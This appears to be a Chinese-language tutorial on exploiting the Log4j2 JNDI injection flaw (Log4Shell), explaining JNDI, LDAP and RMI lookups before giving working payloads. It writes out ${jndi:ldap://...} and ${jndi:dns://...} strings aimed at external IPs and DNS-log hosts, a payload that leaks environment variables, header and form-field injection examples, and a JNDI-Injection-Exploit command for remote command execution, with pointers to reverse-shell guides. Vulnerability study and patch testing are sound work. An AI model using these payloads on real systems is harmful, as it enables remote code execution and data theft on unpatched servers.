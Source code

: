 Log4j2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。Log4j2 是一个 Log4j 1.x 的重写。并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。
由于其优异的性能而被广泛的应用于各种常见的 Web 服务中。

^
## **JNDI注入**
JNDI是对各种访问目录服务的逻辑进行了再封装。
JNDI提供了一个通用的接口，使得Java应用程序可以查找和访问各种不同类型的命名服务和目录服务，包括文件系统、配置文件、DNS、LDAP服务器、RMI服务器等。
^
JNDI注入主要是用过下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务，验证时也可以使用dns协议。
>LDAP（轻型目录访问协议）：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。
>RMI（Java远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。
^
## **Log4j2漏洞原理**
在java中最常用的日志框架是log4j2和logback，其中log4j2支持lookup功能（查找搜索），例如开发者想在日志中打印今天的日期，则只需要输出 ${data:MM-dd-yy}，此时log4j会将${}中包裹的内容单独处理，将它识别为日期查找，然后将该表达式替换为今天的日期内容输出为"08-22-2022”，这样做就不需要开发者自己去编写查找日期的代码。然而lookup功能也允许在日志配置中引用远程JNDI资源，用来动态获取配置信息，比如从远程服务器获取信息字节流。
Log4j2 漏洞利用：攻击者使用 ${} 关键标识符触发 JNDI 注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞。此时攻击者构造一个特殊的JNDI URL，该URL指向一个远程服务器上的恶意LDAP服务。这个LDAP服务会返回一个恶意的类路径（类加载器链），最终导致远程服务器上的恶意类被加载和执行。
支持版本：2.0<=Log4j2<=2.14.1
^
## **漏洞利用和验证**
漏洞验证：
将用户名记录了日志中，
将用户的发言消息记录了日志中等
```
如：文件上传的名字记录日志
java代码：logger.info("获取图片原始文件名：{}”，originalFileName);
抓包把文件名改为：filename="${jndi:dns://***.dnslog.cn}"
成功获取DNSlog
获取java环境变量的操作系统OS：filename="${jndi:dns://${env:OS}.vmfp3r.dnslog.cn}"
```

对应的请求包中对应内容改为：
```
${jndi:ldap://183.145.120.145/Click1/Exec}  
//去请求一个LDAP服务器，域名的话也会请求DNS

${jndi:dns://***.dnslog.cn/exp}  
 //如果tcp不出网ldap失效，直接用dns协议(jndi支持dns://)去实现dnslog。


Accept-Language: zh-cN,zh;q=0.9
X-Api-Version: ${jndi:ldap://test.x****r.ceye.io/exp}
Content-Type: application/x-www-form-urlencoded
Content-Length:64
w-------------------+
username=admin${jndi : dns: //test.x****r.ceye.io/exp}
```
命令执行漏洞利用：
JNDI利用工具：LDAP服务器
工具使用方法参考<https://www.freebuf.com/vuls/337333.html>
实现：${jndi:ldap://127.0.0.1:1389/Basic/Command/你要执行的命令}

^
JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 47.109.58.205

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}
```

^
**log4j2不出网：**
rmi和ladp都是走的tcp协议，如果有网络防火墙tcp不出网，还想利用，将其转成icmp协议出网再转回来。
验证则直接用dns协议(jndi支持dns://)去实现dnslog：${jndi:dns://***.dnslog.cn/exp} 。

^
复现：
<https://www.freebuf.com/articles/web/341857.html>